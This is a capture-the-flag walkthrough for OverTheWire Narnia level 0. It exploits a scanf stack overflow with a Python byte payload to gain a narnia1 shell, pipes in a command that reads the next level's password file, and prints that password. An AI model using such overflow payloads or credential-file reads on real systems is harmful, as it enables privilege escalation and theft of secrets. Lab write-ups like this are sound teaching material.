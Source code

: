 ```bash
user@host:~$ ssh narnia0@narnia.labs.overthewire.org -p 2226
narnia0
```

As we can read from the game description: `PASSWORDS for each level are stored in /etc/somegame_pass/`. Let us start there. After a few tries it is clear we can't get any information on the files containing the passwords for other levels.

```bash
narnia0@narnia:/etc/narnia_pass$ file narnia0
narnia0: ASCII text
narnia0@narnia:/etc/narnia_pass$ file narnia1
narnia1: regular file, no read permission
```

In the `/` directory a folder named `narnia` exists.

```
narnia0@narnia:/narnia$ ls
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: narnia0
buf: narnia0
val: 0x41414141
WAY OFF!!!!
```

The program `narnia0.c` goes (excluding the licensing information):

```c
narnia0@narnia:/narnia$ cat narnia0.c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

So no matter what we enter into the program, the buffer is never compared to anything. However, the buffer is 20 bytes long but we read 24 bytes into it. Since `scanf` reads the input and puts the memory on the stack, it might overwrite the `val` variable. This is what we wiull try to exploit.

`0xdeadbeef` is the hexadecimal representation of the 32-bit number 3735928559, so it is 4 bytes long. Let's see if we can feed 20 bytes into the program AND something like this number. Lert us start with investigating whether our intuition is right.

```
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 000000000000000000001234
val: 0x34333231
WAY OFF!!!!
```

This is an interesting result. The first 20 `0` characters are read into the buffer, and the last four bytes are read into `val`, but they are oriented backwards! So if we orient the characters backwards in the input it will be read forwards. This is exactly the buffer overflow that `scanf` causes.

Let's automate this a bit. We have `python` in our path:

```bash
narnia0@narnia:/narnia$ python --version
Python 2.7.13
```

We can hence create these strings without having to count the `0`'s by feeding a small program as a string and having it execute, piping the output into the `narnia0` program.

```bash
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "feebdaed"'
00000000000000000000feebdaed
```

Let's try with what we know so far!

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "feebdaed"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000feeb
val: 0x62656566
WAY OFF!!!!
```

We can see that feeding the string as ASCII text is not satisfactory. If we inspect the feedback, we can see that `val` is now equal to `0x62656566`, which is hexadecimal for the word `beef`. So in some way, only the last part of the word made it in. Let's try feeding in bytes instead

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "\xde\xad\xbe\xef"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ޭ��
val: 0xefbeadde
WAY OFF!!!!
```

We can almost read `deadbeef`! We just have to remember that the bytes are read pair-wise!

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
```

This works! But nothing seems to happen...

If we look at the source code, we can see that two things happen once we set `val` to `deadbeef`:

    1. setreuid90 sets the user id of the calling process (which is our terminal)
    2. A new shell is started by system(), but it exits as it does not get any input

So we just need to feed it more commands! That is simple by using parenthesis:

```
narnia0@narnia:/narnia$ (python -c 'print "0"*20 + "\xef\xbe\xad\xde"'; echo id;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
```

Now just read the password from the folder.

```
narnia0@narnia:/narnia$ (python -c 'print "0"*20 + "\xef\xbe\xad\xde"'; echo cat ../etc/narnia_pass/narnia1 ;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
efeidiedae
```
